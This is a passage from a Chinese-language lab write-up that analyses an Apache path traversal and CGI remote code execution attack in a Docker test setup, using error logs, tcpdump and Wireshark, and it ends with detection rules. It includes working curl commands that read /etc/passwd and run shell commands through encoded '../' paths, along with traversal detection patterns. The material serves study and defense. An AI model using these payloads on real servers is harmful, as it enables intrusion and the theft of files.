[Sun May 25 07:39:43.795517 2025] [core:error] [pid 20:tid 281472604833344] [client 10.37.133.2:58584] AH10244: invalid URI path (/icons/../../../../index.xhtml)
[Sun May 25 07:39:43.795536 2025] [core:error] [pid 20:tid 281472604833344] [client 10.37.133.2:58584] AH10244: invalid URI path (/icons/../../../../index.htm)
```

**关键发现**：

- **错误代码**: `AH10244` - Apache检测到无效的URI路径
- **攻击模式**: 使用未编码的 `../../../../`进行路径遍历
- **时间集中**: 在07:39:43的几毫秒内连续触发6次错误
- **目标文件**: 攻击者尝试访问各种index文件（.html, .cgi, .pl, .php, .xhtml, .htm）
- **防护机制**: Apache的路径规范化检查成功阻止了这些攻击

2. CGI执行错误分析

**CGI攻击分析**：

- **错误类型**: `cgid:error` - CGI守护进程错误
- **权限问题**: 系统拒绝执行 `/etc/passwd`文件（因为它不是可执行文件）
- **攻击意图**: 攻击者试图通过CGI路径直接执行系统文件
- **防护效果**: 文件系统权限成功阻止了恶意执行

**Shell执行错误**：

```bash
[Sun May 25 07:41:05.002629 2025] [cgid:error] [pid 20:tid 281472728565312] [client 10.37.133.3:58948] End of script output before headers: sh
```

**重要发现**：

- **攻击源变化**: 从 `10.37.133.2`切换到 `10.37.133.3`
- **执行目标**: 直接调用 `sh` shell
- **错误性质**: "End of script output before headers" - 表明shell被执行但没有产生有效的CGI输出头
- **攻击成功**: 尽管有错误，但这实际上表明RCE攻击可能已经成功

5. 安全防护效果评估

**成功的防护**：

- ✅ **路径规范化检查**: 阻止了未编码的路径遍历
- ✅ **文件权限控制**: 阻止了非可执行文件的执行
- ✅ **CGI安全机制**: 限制了恶意CGI执行

**防护绕过**：

- ❌ **编码绕过**: URL编码的路径遍历未被阻止（从访问日志可见）
- ❌ **Shell执行**: 最终成功执行了shell命令

##### 4.2 网络流量捕获与分析

###### 4.2.1 确定容器网络信息

```bash
# 获取 Apache 容器的详细信息
docker inspect a2b4c3a1d377 | grep -A 10 -B 5 "IPAddress"
```


根据容器信息，内部 IP 为 `172.17.0.2`

###### 4.2.2 HTTP流量监控

```bash
# 监听 Docker 网桥上的 HTTP 流量
sudo tcpdump -i docker0 -A -w apache_cve_traffic.pcap 'host 172.17.0.2'
```

在另一个终端执行攻击命令，然后停止抓包：

```bash
# 执行路径遍历攻击
curl "http://10.37.133.3:42286/icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# 执行RCE攻击
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; id"
```





###### 4.2.3 流量分析要点

使用 Wireshark 分析捕获的流量：

1. **路径遍历识别**: 查找包含 `%2e%2e`编码的HTTP GET请求
2. **RCE攻击识别**: 寻找向CGI路径发送POST数据的请求
3. **响应分析**: 观察服务器返回的敏感文件内容或命令执行结果
4. **异常模式**: 识别短时间内大量路径遍历尝试的模式



wireshark流量分析

1. 攻击流量概览

**捕获的数据包总数**: 20个数据包
**攻击持续时间**: 约4.2秒
**攻击源**: `10.37.133.3` (Kali攻击机)
**目标**: `172.17.0.2:80` (Apache容器)

2. 第一次攻击连接分析 (数据包1-10)

2.1 TCP连接建立

```
数据包1-3: TCP三次握手
- 数据包1 (0.000000s): SYN - 攻击机发起连接请求
- 数据包2 (0.000030s): SYN+ACK - 服务器响应连接
- 数据包3 (0.000040s): ACK - 连接建立完成
```

**连接特征**:

- **端口映射**: 攻击机端口40722 → 服务器端口80
- **建立时间**: 仅用时40微秒，连接建立非常快速
- **网络延迟**: 极低延迟，说明是本地Docker网络

2.2 RCE攻击载荷

```
数据包4 (0.000105s): HTTP POST请求
- 方法: POST
- 路径: /cgi-bin/..%2e/..%2e/..%2e/..%2e/bin/sh
- 长度: 290字节
- 协议: HTTP
```

**攻击特征分析**:

- **攻击类型**: 远程代码执行(RCE)
- **编码技术**: 使用 `..%2e`混合编码绕过路径检查
- **目标路径**: 通过CGI路径遍历到 `/bin/sh`
- **HTTP方法**: POST - 用于发送命令执行payload
- **载荷大小**: 290字节，包含完整的CGI命令执行数据

2.3 服务器响应

```
数据包5 (0.000125s): TCP ACK - 服务器确认收到请求
数据包6 (0.040140s): HTTP 200 OK响应
- 状态码: 200 OK
- 内容类型: text/plain
- 响应长度: 254字节
- 处理时间: 40毫秒
```

**响应分析**:

- **攻击成功**: HTTP 200状态码表明RCE攻击成功执行
- **响应内容**: text/plain格式，包含命令执行结果
- **处理延迟**: 40毫秒的处理时间，说明服务器执行了shell命令
- **数据大小**: 254字节响应，可能包含 `id`命令的输出结果

2.4 连接关闭

```
数据包7-10: TCP连接关闭
- 数据包8: 攻击机发起FIN+ACK
- 数据包9: 服务器响应FIN+ACK  
- 数据包10: 攻击机确认ACK
```

3. 第二次攻击连接分析 (数据包11-20)

3.1 新连接建立

```
数据包11-13 (4.212s): 第二次TCP三次握手
- 时间间隔: 4.2秒后发起新连接
- 新端口: 40254 → 80
- 建立时间: 18微秒
```

3.2 路径遍历攻击

```
数据包14 (4.212111s): HTTP GET请求
- 方法: GET  
- 路径: /icons/..%2e%2e/..%2e%2e/..%2e%2e/..%2e%2e/etc/passwd
- 长度: 191字节
- 协议: HTTP
```

**攻击特征分析**:

- **攻击类型**: 路径遍历文件读取
- **目标文件**: `/etc/passwd`系统用户文件
- **攻击路径**: 通过 `/icons/`路径进行遍历
- **编码方式**: `..%2e%2e`双重编码绕过检查
- **HTTP方法**: GET - 用于文件读取

3.3 文件读取成功

```
数据包16 (4.212740s): HTTP 200 OK响应
- 状态码: 200 OK
- 响应长度: 1192字节
- 处理时间: 0.6毫秒
```

**响应分析**:

- **攻击成功**: HTTP 200状态码确认文件读取成功
- **文件大小**: 1192字节，与 `/etc/passwd`文件大小一致
- **快速响应**: 0.6毫秒处理时间，说明是直接文件读取
- **数据泄露**: 成功获取了系统用户信息

4. 攻击模式总结

4.1 攻击时序分析

```
时间轴:
0.000s - 0.041s: RCE攻击 (连接1)
4.212s - 4.216s: 文件读取攻击 (连接2)
```

**攻击策略**:

- **分阶段攻击**: 先执行命令获取权限，再读取敏感文件
- **连接复用**: 使用不同TCP连接避免检测
- **时间间隔**: 4秒间隔，可能是手动操作或脚本延迟

4.2 技术特征识别

```
编码技术对比:
- RCE攻击: ..%2e (混合编码)
- 文件读取: ..%2e%2e (双重编码)
```

**绕过技术**:

- **路径多样化**: CGI路径和icons路径分别利用
- **编码变化**: 不同的URL编码方式
- **方法切换**: POST执行命令，GET读取文件

5. 安全检测要点

5.1 流量特征检测

```bash
# 检测路径遍历特征
- URL包含: %2e%2e, ..%2e, ../../../../
- 路径模式: /cgi-bin/.., /icons/..
- 目标文件: /etc/passwd, /bin/sh
```

5.2 异常行为识别

```bash
# 异常响应模式
- CGI路径返回200状态码
- 大量字节的文件读取响应
- 短时间内多次路径遍历尝试
```

5.3 网络监控规则

```bash
# Wireshark过滤规则
http.request.uri contains "%2e%2e" or 
http.request.uri contains "cgi-bin" and http.request.uri contains ".." or
http.request.uri contains "icons" and http.request.uri contains ".."
```

6. 攻击成功指标

**确认攻击成功的关键证据**:

1. ✅ **RCE成功**: POST请求返回200状态码，254字节响应
2. ✅ **文件读取成功**: GET请求返回200状态码，1192字节响应
3. ✅ **权限获取**: 能够执行系统命令和读取敏感文件
4. ✅ **绕过防护**: 成功绕过Apache的路径检查机制
